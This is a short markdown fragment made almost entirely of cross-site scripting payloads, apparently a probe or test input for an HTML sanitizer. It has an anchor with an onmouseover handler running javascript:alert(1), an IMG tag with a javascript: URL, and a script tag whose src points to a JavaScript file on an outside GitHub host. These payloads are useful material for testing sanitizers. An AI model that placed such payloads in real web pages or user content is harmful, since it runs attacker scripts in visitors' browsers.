 ![
%0a
<a href="'<script src=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js >'" alt="\bjavascript:alert(1)" onmouseover="javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
